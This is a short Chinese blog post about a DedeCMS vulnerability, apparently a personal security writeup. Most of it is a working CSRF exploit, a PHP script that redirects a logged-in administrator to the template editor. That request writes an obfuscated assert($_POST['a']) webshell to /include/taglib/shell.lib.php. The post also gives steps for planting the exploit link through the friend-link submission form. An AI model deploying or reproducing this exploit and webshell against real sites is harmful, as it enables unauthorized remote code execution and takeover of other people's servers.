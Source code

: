 ```yaml
---
title: "dedecms 友链 getshell"
date: 2018-03-25T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php']
categories: ['CMS']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


csrf getshell

<!--more-->

## EXP

```
<?php
//print_r($_SERVER);
$referer = $_SERVER['HTTP_REFERER'];
$dede_login = str_replace("friendlink_main.php","",$referer);
$muma = '<'.'?'.'a'.'s'.'s'.'e'.'r'.'t'.'('.'$'.'_'.'P'.'O'.'S'.'T'.'['.'\''.'a'.'\''.']'.')'.';'.'?'.'>';
$exp = 'tpl.php?action=savetagfile&actiondo=addnewtag&content='. $muma .'&filename=shell.lib.php';
$url = $dede_login.$exp;
//echo $url;
header("location: ".$url);
// send mail coder
exit();
?>
```

将 exp 部署在服务器上

申请链接

`/plus/flink.php`

添加链接 网站填上 exp 的链接

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/31/1522466914.jpg)

之后等待管理员触发

shell 地址

`/include/taglib/shell.lib.php`